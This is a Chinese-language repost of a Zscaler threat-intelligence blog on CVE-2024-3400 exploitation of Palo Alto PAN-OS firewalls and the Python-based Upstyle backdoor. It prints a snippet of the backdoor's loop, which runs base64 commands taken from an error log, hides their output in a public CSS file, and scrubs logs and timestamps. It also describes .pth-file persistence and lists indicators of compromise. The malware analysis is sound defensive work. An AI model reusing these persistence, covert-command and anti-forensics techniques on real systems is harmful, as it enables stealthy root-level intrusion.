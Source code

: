 #  CVE-2024-3400 活动和 Upstyle 后门技术分析   
 Ots安全   2024-04-18 18:07  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
**介绍**  
  
最近，在 Palo Alto Networks PAN-OS 中发现了一个零日命令注入漏洞，编号为 CVE-2024-3400。它被分配的最高严重性分数为 10.0，未经身份验证的用户可以利用它以 root 权限在目标系统上运行任意命令。  
  
Volexity 是第一个发现并报告该漏洞的公司。此后，网络安全和基础设施安全局 (CISA) 将 CVE-2024-3400 添加到其已知被利用的漏洞目录中。  
  
在本博客中，我们将分享 Zscaler 全球情报网络观察到的漏洞利用活动。并且，我们将研究最近发现的基于 Python 的后门及其与操作员的新颖交互机制。  
  
要点  
- 在漏洞利用脚本发布后，Zscaler 的全球情报网络立即发现了 CVE-2024-3400 活动。  
  
- 后门利用.pth文件自动执行，并通过错误日志发送命令并通过可公开访问的样式表接收输出，从而与后门进行新颖的间接交互。  
  
- 该漏洞被公开披露的同一天，基于Python的利用脚本也在GitHub上向公众发布，使得其他网络犯罪分子更容易利用或测试该漏洞的设备。   
  
**Zscaler 观察到的活动**  
  
Zscaler 的全球情报网络从各种已知的恶意源中捕获了针对多个客户的设备的活动。在 GitHub 上发布漏洞利用脚本后，该活动几乎立即被捕获。该活动似乎并不针对任何特定地区或垂直行业。  
  
观察到的大多数活动均源自已知与漏洞扫描、Redline Stealer 和 EvilProxy 相关的恶意 IP。   
  
然而，有一个 IP 从这一组中脱颖而出。我们认为 IP 地址67.55.94[.]84与 VPN 提供商相关联。尚未观察到该 IP 的其他活动。目前，没有足够的证据表明该 IP 属于任何特定的威胁行为者。  
  
**技术分析**  
  
我们怀疑攻击者打算将 Upstyle 纳入他们的攻击序列中。Upstyle 是 Volexity 最初发现的一个复杂的后门，它采用创新技术来实现持久性、命令接收以及与操作员共享输出。   
  
**攻击流程**  
  
下图显示了攻击流程如何展开。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexnzictf4LQ51vt1O6y5BAz2sxYAfqDhmkpswcg8dib7q3qKJEUibibBF3sNqwJNfhhTFTuclVj0V9hg/640?wx_fmt=png&from=appmsg "")  
  
图 1：PAN-OS 零日漏洞可能引发的基于防火墙的攻击链。   
  
  
**Upstyle后门**  
  
后门由三层组成。  
  
第一个外层是安装程序，其中包含 Base64 编码格式的下一层。  
  
  
**第 1 层 - 安装程序**  
  
安装程序层将下一层写入以下路径：  
/usr/lib/python3.6/site-packages/system.pth。此外，它会将文件的上次访问时间和上次修改时间设置  
system.pth为与安装程序脚本相同的时间。  
  
  
最后，安装程序脚本会删除自身和  
/opt/pancfg/mgmt/licenses/PA_VM`*文件。  
  
  
文件路径和扩展名具有特殊意义。自Python 3.5发布以来，每次Python启动时都会运行下面的任何  
.pth文件  
site-packages，并执行以import（后跟空格或制表符）开头的行，从而为恶意代码建立了独特的自动执行机制，只要有任何Python代码被执行在系统上运行。  
  
  
**第 2 层 - 启动器**  
  
该层包含功能后门作为另一个 base64 编码的代码块。它包含两个名为  
protect和 的函数  
check。  
- protect：此功能可能会保护持久性机制并确保后门保留在  
system.pth文件中。它读取 的内容  
system.pth并添加终止信号的处理程序。处理程序将  
system.pth在终止之前写回文件的内容。  
  
- check：该方法在方法之后调用  
protect。它将  
/usr/local/bin/monitor mp通过检查文件来检查它是否正在运行  
/proc/self/cmdline。如果是，后门代码将被执行。这可能是控制后门执行并避免运行后门线程的多个重复项的一种方法。  
  
**第 3 层 - 后门**  
  
启动时，该后门将读取文件的内容、上次访问时间和上次修改时间，  
/var/appweb/sslvpndocs/global-protect/portal/css/bootstrap.min.css以便稍后恢复。  
  
  
然后，它进入无限循环并开始监视错误日志文件以  
/var/log/pan/sslvpn_ngx_error.log查找以下正则表达式之一：  
img\[([a-zA-Z0-9+/=]+)\]或  
img\{base64encoded_command}\。  
  
  
当一行匹配时，会找到模式，对命令进行 Base64 解码并执行，并将输出附加到  
bootstrap.min.css注释标记内的文件中  
/* {command output here} */。  
  
  
最后，清除日志文件中攻击者生成的包含恶意命令的错误日志，并恢复错误日志文件时间戳。15 秒后，文件的内容和时间戳  
bootstrap.min.css也会恢复。  
```
-- [snip] --
   css_path = '/var/appweb/sslvpndocs/global-protect/portal/css/bootstrap.min.css'
   content = open(css_path).read()
   atime=os.path.getatime(css_path)
   mtime=os.path.getmtime(css_path)
while True:
try:
           SHELL_PATTERN = 'img\[([a-zA-Z0-9+/=]+)\]'
           lines = []
           WRITE_FLAG = False
for line in open("/var/log/pan/sslvpn_ngx_error.log",errors="ignore").readlines():
               rst = re.search(SHELL_PATTERN,line)
if rst:
                   WRITE_FLAG = True
                   cmd = base64.b64decode(rst.group(1)).decode()
try:
                       output = os.popen(cmd).read()
with open(css_path,"a") as f:
                           f.write("/*"+output+"*/")
except Exception as e:
pass
continue
               lines.append(line)
if WRITE_FLAG:
               atime=os.path.getatime("/var/log/pan/sslvpn_ngx_error.log")
               mtime=os.path.getmtime("/var/log/pan/sslvpn_ngx_error.log")
with open("/var/log/pan/sslvpn_ngx_error.log","w") as f:
                   f.writelines(lines)
               os.utime("/var/log/pan/sslvpn_ngx_error.log",(atime,mtime))
import threading
              threading.Thread(target=restore,args=(css_path,content,atime,mtime)).start()
except:
pass
       time.sleep(2)
-- [snip] ---
```  
  
结论  
  
CVE-2024-3400 是一个高度严重的漏洞。该漏洞利用脚本在 GitHub 上向公众发布后不久，恶意活动就有所增加。  
  
  
零信任交换平台™、零信任架构和深度防御的基本原则应结合使用，以防御此类攻击。除了部署检测规则和监控环境中的可疑活动之外，安全团队还应该采用欺骗工程。战略性地使用该技术可以使对手无法在不触发警报的情况下在环境中移动。  
  
  
妥协指标 (IOC)  
  
漏洞扫描源IP  
```
23.227.194.230  已知恶意 IP
154.88.26.223  已知恶意 IP
206.189.14.205  已知恶意 IP
67.55.94.84  VPN IP
```  
  
SHA256 哈希值  
```
ab3b9ec7bdd2e65051076d396d0ce76c1b4d6f3f00807fa776017de88bebd2f3
3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac
949cfa6514e499e28aa32feba800181558e60455b971206aa5aa601ea1f55605
710f67d0561c659aecc56b94ee3fc82c967a9647c08451ed35ffa757020167fb
```  
  
内容出自：  
```
https://www.zscaler.com/blogs/security-research/look-cve-2024-3400-activity-and-upstyle-backdoor-technical-analysis
```  
  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
